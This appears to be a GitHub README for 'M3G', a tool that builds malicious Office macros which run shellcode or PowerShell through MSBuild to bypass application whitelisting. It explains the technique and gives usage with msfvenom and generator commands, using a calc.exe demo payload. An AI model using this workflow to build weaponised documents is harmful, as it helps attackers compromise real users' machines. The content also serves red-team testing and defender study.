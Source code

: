# Malicious Macro MSBuild Generator

## Description
Generates Malicious Macro and Execute Powershell or Shellcode via MSBuild Application Whitelisting Bypass.

## What is MSBuild

MSBuild.exe (Microsoft Build Engine) is a software build platform used by Visual Studio. It takes XML formatted project files that define requirements for building various platforms and configurations.  

Adversaries can use MSBuild to proxy execution of code through a trusted Windows utility. The inline task capability of MSBuild that was introduced in .NET version 4 allows for C# code to be inserted into the XML project file.  

MSBuild will compile and execute the inline task. MSBuild.exe is a signed Microsoft binary, so when it is used this way it can execute arbitrary code and bypass application whitelisting defenses that are configured to allow MSBuild.exe execution.

## Usage
```
usage: M3G.py [-h] -i INPUTFILE -p PAYLOAD -o OUTPUT

M3G - Malicious Macro MSBuild Generator v1.0
Author : Rahmat Nurfauzi (@infosecn1nja)

optional arguments:
  -h, --help            show this help message and exit
  -i INPUTFILE, --inputfile INPUTFILE
                        Input file you want to embed into the macro
  -p PAYLOAD, --payload PAYLOAD
                        Choose a payload for powershell or raw shellcode
  -o OUTPUT, --output OUTPUT
                        Output filename for the macro
```

## Example
* Choose a payload you want to test like shellcode or powershell
* Generate a raw shellcode in whatever framework you want (Cobalt Strike, Metasploit Framework)

`$ msfvenom -p windows/exec cmd="calc.exe" -f raw > payload.bin`  
`$ python M3G.py -p shellcode -i /path/payload.bin -o macro.vba`  
`$ python M3G.py -p powershell -i /path/payload.ps1 -o macro.vba`

## Links

* https://gist.github.com/subTee/6b236083da2fd6ddff216e434f257614
* http://subt0x10.blogspot.no/2017/04/bypassing-application-whitelisting.html
* https://msdn.microsoft.com/en-us/library/dd722601.aspx

## Credit
Rahmat Nurfauzi (@infosecn1nja)